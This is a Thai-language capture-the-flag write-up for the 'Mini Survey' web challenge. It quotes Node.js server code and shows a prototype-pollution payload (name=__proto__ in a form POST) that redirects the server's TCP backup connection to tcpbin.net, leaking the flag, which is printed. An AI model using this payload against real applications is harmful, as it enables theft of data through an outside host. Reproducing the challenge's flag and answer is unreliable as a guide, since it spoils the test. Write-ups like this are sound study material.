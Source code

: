# web/Mini Survey

## index.js
```js
const updateDBs = require("./serverComs");
...
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };
    
    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
...
```
งืม~~ ยังไม่เห็นไรมาก ลองไปดู func updateDBs ดีกว่า

## serverComs.js
```js
...
backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {backupServerHost = data.host}
    if (data.port != undefined) {backupServerPort = data.port}

    const options = {host: backupServerHost || "localhost", port: backupServerPort || "8888" };
    console.log("options:",options);

    const socket = net.connect(options, () => {
        socket.write(postData);
        socket.end();
    });
    ...
}
function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}
...
```
func updateDBs จะเพิ่ม flag เข้าไปใน commData (dataObj ที่ถูก clone มา) และก็จะเรียก func sendData เพื่อเชื่อมต่อ tcp ไปยังที่ไหนสักที่ และก็ส่ง postData ที่มี flag อยู่ไป

## ทำไงล่ะทีนี้?
ผมไปเจอ https://t.ly/EgVId พบว่าเราสามารถใช้ `__proto__` เพื่อไป set prototype ของ object นั้นๆได้ (ถ้าทฤษฎีเพี้ยนอย่าโกรธกันเลย) ผมก็เลยได้ script นี้เพื่อเอา flag คร่าวๆประมาณนี้
```python
from requests import request
payload = 'name=__proto__&city=port&pollutionRate=47183' # city = key, pollutionRate = value
request("POST", "??", headers={'Content-Type':'application/x-www-form-urlencoded'}, data=payload)
```
ส่วน host, port ก็ใช้ tcpbin.net เอาครับ

## Flag
`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
(`nite{9wd_t0_th3_r35cu3_dp54kf}` fake flag in prod 🤣)

![firstblood](firstbloodXD.png)

ได้ firstblood ครั้งแรกคั้บบบ~~
